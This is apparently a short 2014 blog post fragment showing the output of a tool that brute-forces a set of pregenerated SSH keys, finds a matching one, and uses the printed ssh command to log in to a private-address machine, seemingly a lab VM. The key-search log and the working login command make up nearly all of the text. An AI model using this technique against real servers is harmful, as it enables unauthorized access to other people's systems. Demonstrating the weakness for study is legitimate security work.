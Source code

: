 ```plain
Tested 440 keys | Remaining 32328 keys | Aprox. Speed 45/sec
Tested 663 keys | Remaining 32105 keys | Aprox. Speed 44/sec
(snip)
Tested 16000 keys | Remaining 16768 keys | Aprox. Speed 45/sec
Tested 16229 keys | Remaining 16539 keys | Aprox. Speed 45/sec
Tested 16451 keys | Remaining 16317 keys | Aprox. Speed 44/sec

Key Found in file: dcbe2a56e8cdea6d17495f6648329ee2-4679
Execute: ssh -lobama -p22 -i rsa/2048//dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.1.27

Tested 16654 keys | Remaining 16114 keys | Aprox. Speed 40/sec
```

Copier / coller  

```plain
$ ssh -lobama -p22 -i rsa/2048//dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.1.27
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

Last login: Thu Jun 19 10:10:29 2008
obama@ubuntuvm:~$ id
uid=1001(obama) gid=1001(obama) groups=1001(obama)
```

:x

*Published April 18 2014 at 13:51*
